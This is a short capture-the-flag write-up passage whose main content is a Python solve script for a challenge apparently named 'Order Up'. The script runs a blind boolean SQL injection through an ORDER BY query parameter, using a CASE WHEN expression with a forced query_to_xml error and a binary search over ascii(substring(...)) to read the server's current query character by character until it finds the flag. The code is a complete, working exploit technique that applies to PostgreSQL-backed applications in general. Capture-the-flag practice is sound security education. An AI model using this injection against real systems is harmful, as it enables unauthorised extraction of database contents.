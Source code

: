 Here is my solve script.

Note that it deviates a little from the above research due to multiple refinements.

Of note: it uses the `ascii()` function to avoid having to worry about avoiding special characters like single quote in the comparison.

```
import os
import requests

URL = os.getenv('CHAL_URL') or 'https://dyn-svc-order-up-xzt52u0rhv6nh4eo2w0q-okntin33tq-uc.a.run.app/'
URL = URL + '/query'

def tryUrl(expression):
    order = f"CASE WHEN ({expression}) THEN item_name ELSE ''||query_to_xml('bad-query',true,true,'') END"
    params = {'col1': 'item_name', 'order': order}

    response = requests.get(URL, params=params, timeout=20)
    # print(response.status_code, response.text)

    return 'Error' not in response.text


def probeValueAtOffset(value, charOffset):

    lowGuessIndex = 1
    highGuessIndex = 126

    while lowGuessIndex < highGuessIndex:
        guessIndex = lowGuessIndex + (highGuessIndex - lowGuessIndex) // 2;

        expression = f"ascii(substring({value}, {charOffset}, 1)) >= {guessIndex}"
        # print(expression)

        if tryUrl(expression):
            if lowGuessIndex == guessIndex:
                return chr(guessIndex)
            lowGuessIndex = guessIndex
        else:
            highGuessIndex = guessIndex

    return False


def runQuery():
    value = """"""
    expression = """current_query()"""
    # expression = """version()"""
    offset = len(value)
    while True:
        offset += 1
        nextChar = probeValueAtOffset(expression, offset)
        if not nextChar:
            return value
        value += nextChar
        print(value)

        if 'wctf{' in value and '}' in value:
            print('SOLVED: ORDER_UP flag 1!')
            break
            

```